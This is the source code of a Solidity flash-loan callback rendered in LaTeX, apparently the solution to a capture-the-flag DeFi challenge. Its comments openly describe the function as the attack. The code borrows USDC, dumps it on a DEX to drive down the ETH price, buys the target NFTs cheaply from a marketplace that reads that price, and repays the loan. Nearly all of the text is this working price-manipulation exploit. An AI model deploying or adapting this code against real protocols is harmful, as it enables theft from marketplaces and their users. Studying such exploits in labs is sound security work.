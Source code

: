 \documentclass[12pt]{article}
\begin{document}
\begin{lstlisting}[language=Solidity]
// Flash loan callback function where the actual attack happens
function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata data
) external override returns (bytes32) {

    // Decode the NFT ids to buy
    uint256[] memory nftIds = abi.decode(data, (uint256[]));
    
    // Approve DEX to spend our USDC
    usdcToken.approve(address(dex), amount);
    
    // Dump all USDC to manipulate the price
    dex.usdcToEth(amount);
    
    // Buy all target NFTs at the reduced ETH price and transfer to owner
    for (uint i = 0; i < nftIds.length; i++) {
        uint256 ethPrice = marketplace.getCurrentPriceForNFT(nftIds[i]);
        marketplace.buyNFT{value: ethPrice}(nftIds[i]);
        
        // Transfer the NFT to the owner
        nftContract.transferFrom(address(this), owner, nftIds[i]);
    }
    
    // Convert ETH back to USDC to repay the loan
    uint256 usdcToRepay = amount + fee;
    uint256 usdcBought = dex.ethToUsdc{value: address(this).balance}();
    
    // Check if we have enough USDC to repay
    uint256 currentUsdcBalance = usdcToken.balanceOf(address(this));
    if (currentUsdcBalance < usdcToRepay) {
        revert RepaymentFailed(currentUsdcBalance, usdcToRepay);
    }
    
    // Transfer the tokens to the lender to repay the loan
    usdcToken.transfer(address(lender), usdcToRepay);

    // Transfer any remaining USDC back to the player
    usdcToken.transfer(owner, usdcBought - usdcToRepay);
    
    // Return the required value to indicate successful flash loan execution
    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
\end{lstlisting}
\end{document}
